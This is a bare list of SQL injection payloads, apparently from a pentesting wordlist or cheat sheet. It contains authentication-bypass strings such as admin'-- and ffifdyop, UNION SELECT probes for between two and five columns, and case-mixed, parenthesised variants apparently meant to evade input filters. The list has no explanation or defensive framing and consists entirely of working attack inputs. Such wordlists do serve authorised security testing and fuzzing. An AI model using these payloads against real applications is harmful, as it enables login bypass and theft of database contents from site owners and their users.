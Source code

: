 ```
'oR(2)LiKE(2)-- 2
'oR(2)LiKE(2)#
'oR(2)LiKE(2)/*
'oR(2)LiKE(2)oR'
"oR"2"LiKE"2
"oR"2"LiKE"2"-- 2
"oR"2"LiKE"2"#
"oR"2"LiKE"2"/*
"oR"2"LiKE"2"oR"
"oR(2)LiKE(2)-- 2
"oR(2)LiKE(2)#
"oR(2)LiKE(2)/*
"oR(2)LiKE(2)oR"
admin
admin'-- 2
admin'#
admin"-- 2
admin"#
ffifdyop
' UniON SElecT 1,2-- 2
' UniON SElecT 1,2,3-- 2
' UniON SElecT 1,2,3,4-- 2
' UniON SElecT 1,2,3,4,5-- 2
' UniON SElecT 1,2#
' UniON SElecT 1,2,3#
' UniON SElecT 1,2,3,4#
' UniON SElecT 1,2,3,4,5#
'UniON(SElecT(1),2)-- 2
'UniON(SElecT(1),2,3)-- 2
'UniON(SElecT(1),2,3,4)-- 2
'UniON(SElecT(1),2,3,4,5)-- 2
'UniON(SElecT(1),2)#
'UniON(SElecT(1),2,3)#
'UniON(SElecT(1),2,3,4)#
'UniON(SElecT(1),2,3,4,5)#
" UniON SElecT 1,2-- 2
" UniON SElecT 1,2,3-- 2
" UniON SElecT 1,2,3,4-- 2
" UniON SElecT 1,2,3,4,5-- 2
" UniON SElecT 1,2#
" UniON SElecT 1,2,3#
" UniON SElecT 1,2,3,4#
" UniON SElecT 1,2,3,4,5#
"UniON(SElecT(1),2)-- 2
"UniON(SElecT(1),2,3)-- 2
"UniON(SElecT(1),2,3,4)-- 2
"UniON(SElecT(1),2,3,4,5)-- 2
"UniON(SElecT(1),2)#
"UniON(SElecT(1),2,3)#
"UniON(SElecT(1),2,3,4)#
"UniON(SElecT(1),2,3,4,5)#
'||'2
'||2-- 2
'||'2'||'
'||2#
'||2/*
'||2||'
"||"2
"||2-- 2
"||"2"||"
"||2#
"||2/*
"||2||"
```